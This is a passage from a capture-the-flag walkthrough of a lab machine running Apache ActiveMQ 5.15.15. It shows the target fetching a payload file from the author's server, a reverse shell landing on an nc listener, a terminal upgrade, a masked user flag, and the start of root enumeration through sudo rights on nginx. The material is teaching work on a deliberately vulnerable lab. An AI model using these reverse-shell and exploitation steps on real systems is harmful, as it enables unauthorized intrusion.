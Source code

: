 With `nc` listening on 9001, I'll run the exploit again. It fetches
`poc.xml` (twice):



    10.10.11.243 - - [08/Nov/2023 13:34:37] "GET /poc.xml HTTP/1.1" 200 -
    10.10.11.243 - - [08/Nov/2023 13:34:37] "GET /poc.xml HTTP/1.1" 200 -



And then a shell at `nc`:



    oxdf@hacky$ nc -lnvp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.243 60298
    bash: cannot set terminal process group (880): Inappropriate ioctl for device
    bash: no job control in this shell
    activemq@broker:/opt/apache-activemq-5.15.15/bin$



I'll do a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    activemq@broker:/opt/apache-activemq-5.15.15/bin$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
    [1]+  Stopped                 nc -lnvp 9001
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 9001
                 reset
    reset: unknown terminal type unknown
    Terminal type? screen
    activemq@broker:/opt/apache-activemq-5.15.15/bin$ 



And grab `user.txt`:



    activemq@broker:~$ cat user.txt
    61b5553d************************



## Shell as root

### Enumeration

The activemq user can run `nginx` as root with no password:



    activemq@broker:~$ sudo -l
    Matching Defaults entries for activemq on broker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty
